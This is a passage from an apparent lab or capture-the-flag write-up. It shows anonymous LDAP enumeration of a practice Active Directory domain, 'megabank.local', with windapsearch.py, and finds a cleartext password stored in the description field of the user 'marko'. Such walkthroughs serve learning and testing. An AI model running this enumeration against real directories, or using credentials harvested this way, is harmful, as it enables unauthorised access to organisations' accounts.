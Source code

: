 ```
userPrincipalName: steve@megabank.local

cn: Annette Nilsson
userPrincipalName: annette@megabank.local

cn: Annika Larson
userPrincipalName: annika@megabank.local

cn: Per Olsson
userPrincipalName: per@megabank.local

cn: Claude Segal
userPrincipalName: claude@megabank.local

cn: Melanie Purkis
userPrincipalName: melanie@megabank.local

cn: Zach Armstrong
userPrincipalName: zach@megabank.local

cn: Simon Faraday
userPrincipalName: simon@megabank.local

cn: Naoki Yamamoto
userPrincipalName: naoki@megabank.local

[*] Bye!
```

I did another search in the LDAP directory but this time looking at the description because sometimes we can find additonial useful information in there. Here I see that the `marko` user has a note about the password being set to `Welcome123!`

```
root@beholder:~# windapsearch.py --dc-ip 10.10.10.169 --attrs sAMAccountName,description -U
[+] No username provided. Will try anonymous bind.
[+] Using Domain Controller at: 10.10.10.169
[+] Getting defaultNamingContext from Root DSE
[+]	Found: DC=megabank,DC=local
[+] Attempting bind
[+]	...success! Binded as: 
[+]	 None

[+] Enumerating all AD users
[+]	Found 25 users: 

[...]
description: Account created. Password set to Welcome123!
sAMAccountName: marko
[...]
```

